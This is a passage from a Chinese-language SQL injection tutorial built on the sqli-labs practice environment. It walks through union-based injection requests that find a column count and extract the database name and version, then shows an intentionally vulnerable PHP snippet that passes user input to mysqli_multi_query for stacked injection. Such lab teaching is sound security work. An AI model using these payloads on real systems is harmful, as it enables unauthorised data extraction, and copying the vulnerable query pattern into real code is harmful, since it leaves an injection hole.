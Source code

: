 **注意这里 id 的值不存在，目前是为了在页面上显示 union 查询结果**。

这样的好处就相当于另起一句 SQL 语句，非常适用于获取数据库中一些敏感信息，而不必过多考虑原有 SQL 语句的情况。因此，它在实际的漏洞利用中也经常被使用。联合查询注入也是验证漏洞可利用性的最佳方法之一，但经常需要结合错误回显。

我们仍以 sqli-labs 第 2 题为例，先构造以下请求：

```
http://localhost/Less-2/?id=0 union select 1
```

得到错误提示“The used SELECT statements have a different number of columns”，也就是字段数有误，如下图所示：

![Drawing 9.png](https://s0.lgstatic.com/i/image2/M01/03/A4/CgpVE1_gPUqADu50AANtXLBwuf0866.png)

图 10：字段数有误

此时我们可以逐渐增加字段数来找到合适字段数：

```
回显错误：http://localhost/Less-2/?id=0 union select 1,2
正确：http://localhost/Less-2/?id=0 union select 1,2,3
回显错误：http://localhost/Less-2/?id=0 union select 1,2,3,4
```

最后发现它共有 3 个字段，我们看看哪些字段显示出来了：  
![Drawing 10.png](https://s0.lgstatic.com/i/image2/M01/03/A3/Cip5yF_gPVGAYoxhAANs6mFjRDI693.png)

图 11：字段展示

可以发现 2 和 3 字段显示在页面中，这里我们就可以进一步构造利用以获取数据库名和版本信息：

```
http://localhost/Less-2/?id=0 union select 1,database(),version()
```

最终，我们成功爆出数据库名为 security，版本为 5.5.44-0ubuntu0.14.04.1，如下图所示：

![Drawing 11.png](https://s0.lgstatic.com/i/image2/M01/03/A3/Cip5yF_gPVmAaBouAAN-25Njwzw855.png)

图 12：成功爆出数据库名

#### 多语句堆叠注入

在 SQL 语句中，允许使用分号间隔多个查询语句来执行。mysqli\_multi\_query() 函数可以通过分号间隔插入多个查询语句实现堆叠注入。以 sqli-labs 第 38 题为例：

```
<?php
    $id=$_GET['id'];
......
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
if (mysqli_multi_query($con1, $sql))
{
       ......
    }
    ......
?>
```
